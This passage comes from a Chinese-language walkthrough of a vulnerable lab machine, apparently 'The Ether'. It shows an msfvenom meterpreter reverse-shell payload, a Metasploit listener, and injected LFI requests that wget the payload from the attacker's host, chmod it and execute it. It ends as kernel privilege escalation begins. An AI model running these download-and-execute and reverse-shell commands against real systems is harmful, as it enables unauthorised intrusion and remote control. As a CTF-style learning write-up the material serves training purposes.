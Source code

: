 ![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/The%20Ether%20(6).png)

成功写入，并能执行相应命令

### msf反弹shell

下面利用msf生成linux的shell程序反弹一个shell

```shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.160.129 LPORT=4444 -f elf > shell.elf
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/The%20Ether%20(9).png)

设置监听

```shell
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost 192.168.160.129
exploit
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/The%20Ether%20(7).png)

先用Python搭建一个简单的Web Server：

```python
python -m SimpleHTTPServer 80
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/The%20Ether%20(8).png)

然后利用前面获得的一句话，执行命令，下载生成的木马，添加执行权限并运行。

```shell
#下面的命令为了正常执行，都对空格和加号等符号进行了url编码
#下载木马
/?file=/var/log/auth.log&a=system('wget+192.168.160.129/shell.elf')%3b
#生成的木马文件没有执行权限，传到到靶机后无法执行，所以要先给shell.elf赋予执行权限，再执行
/?file=/var/log/auth.log&a=system('chmod+%2bx+shell.elf')%3b
#执行
/?file=/var/log/auth.log&a=system('./shell.elf')%3b
```

反弹成功

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/The%20Ether%20(10).png)

## 提权

### 溢出提权

现在拿到了目标靶机的Meterpreter shell，简单的看下信息。

发现系统为`Ubuntu 16.04 (Linux 4.10.0-40-generic)`，前段时间爆了Ubuntu16.04提权的exp，在这里试一试
